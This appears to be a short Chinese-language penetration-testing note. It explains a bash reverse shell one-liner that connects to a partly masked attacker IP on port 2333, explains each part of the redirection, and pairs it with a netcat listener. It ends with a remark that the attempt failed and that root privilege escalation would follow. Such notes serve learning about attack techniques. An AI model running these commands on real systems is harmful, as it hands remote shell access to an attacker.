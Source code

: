 ![](vx_images/177770805247558.png)
```
echo $0 //查看当前shell类型
whoami //查看当前用户
<shell name> //切换shell
```
反弹shell
```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1或bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"# bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1
bash -i：产生一个bash交互环境。
 >&:将联合符号前面的内容与后面相结合，然后一起重定向给后者
 /dev/tcp/47.xxx.xxx.72/2333 :Linux环境中所有的内容都是以文件的形式存在的，让目标主机与攻击机47.xxx.xxx.72的2333端口建立一个tcp连接。
 0>&1:将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容
Bash产生了一个交互环境和本地主机主动发起与攻击机2333端口建立的连接（即TCP 2333会话连接）相结合，然后在重定向个TCP 2333会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。
```
本地监听
```
nc -lvvp 2333
```
本次反弹shell失败，无法进行后续渗透
后续流程
根据内核版本和系统版本，寻找漏洞，提权为root用户